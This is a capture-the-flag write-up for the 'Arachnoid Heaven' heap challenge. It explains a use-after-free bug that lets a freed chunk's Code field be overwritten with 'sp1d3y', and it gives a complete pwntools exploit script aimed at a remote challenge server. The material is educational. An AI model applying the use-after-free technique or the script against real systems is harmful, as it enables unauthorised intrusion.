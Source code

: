 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_menu.png)

We get the classic menu with options to create, delete, view, and then ... obtain ?
Reading the pseudocode in ida, everything looks as expected,
with craft function using malloc to allocate chunks, delete freeing chunks 
and view letting us view the arachnoid names and their corresponding **Code**, which is set to "Bad" uppon creation of the arachnoid, without the user having direct access to it.
Since deleted arachnoids aren't taken into account in the view function, we can even view those as well.

Reading through the **obtain** function, we see this:
![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_win_func.png)

It checks if the **Code** corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag. Basically a win function.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a **Use-After-Free vulnerability**.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```

## And there we have it:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_flag.png)
